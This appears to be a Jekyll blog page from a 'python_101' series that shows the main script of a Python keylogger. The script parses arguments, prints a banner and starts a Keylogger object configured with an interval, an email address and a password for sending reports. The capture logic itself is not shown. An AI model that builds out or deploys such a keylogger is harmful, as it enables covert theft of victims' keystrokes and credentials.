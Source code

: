 ```yaml
---
title: Main method Invoking the Keylogger class
permalink: /permalinks/keylogger/main
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script invokes all methods and classes used by the keylogger.
- We make the code modular and much easy to read seperating the keylogger class and main files. 
- We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```